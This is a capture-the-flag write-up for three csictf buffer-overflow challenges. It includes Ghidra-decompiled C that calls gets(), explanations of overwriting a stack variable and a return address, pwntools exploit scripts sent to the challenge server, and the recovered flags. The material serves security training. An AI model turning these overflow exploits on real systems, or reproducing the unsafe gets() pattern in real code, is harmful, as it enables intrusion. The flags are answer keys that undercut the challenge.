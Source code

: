 ```yaml
---
layout: default
---
```



# PWN

## pwn-intended-0x1

nc chall.csivit.com 30001

**FLAG : csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}**

I Reversed the file with ghidra .

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Please pour me some coffee:");
  gets(local_38);
  puts("\nThanks!\n");
  if (local_c != 0) {
    puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
    system("cat flag.txt");
  }
  return 0;
}

```
we just have to overwrite anything after 44 bytes to get the flag.

![](img/pwn11.png)

## pwn-intended-0x2

nc chall.csivit.com 30007

### FLAG : csictf{c4n_y0u_re4lly_telep0rt?}

I Reversed the code with ghidra

```c

undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Where are you headed?");
  gets(local_38);
  puts("Safe Journey!");
  if (local_c == -0x35014542) {
    puts("You\'ve reached your destination, here\'s a flag!");
    system("/bin/cat flag.txt");
  }
  return 0;
}
```
![](img/pwn21.png)

local_c is checked for a hex value of 0xcafebabe.
so we just have to write 0xcafebabe after 44 bytes.

```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30007)

payload = "A"*44 + '\xbe\xba\xfe\xca'

r.sendline(payload)
r.interactive()
```
![](img/pwn22.png)

## pwn-intended-0x3

nc chall.csivit.com 30013

### FLAG : csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}

Reversed the code with ghidra

got a **main()** and **flag()** function

```c

undefined8 main(void)

{
  char local_28 [32];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Time to teleport again.");
  gets(local_28);
  return 0;
}

```

```c

void flag(void)

{
  puts("Well, that was quick. Here\'s your flag:");
  system("cat flag.txt");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

we just have to write the address of the flag function after
32+8 bytes..

```
root@kali:~/ctf/csictf/pwn# echo info functions | gdb ./pwn-intended-0x3 | grep flag
0x00000000004011ce  flag
root@kali:~/ctf/csictf/pwn#
```

```py
>>> import pwn
>>> pwn.p64(0x00000000004011ce)
b'\xce\x11@\x00\x00\x00\x00\x00'
>>>
```

i just wrote a simple script to get the flag
```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30013)

payload = "A"*40 + '\xce\x11@\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
![](img/pwn3.png)
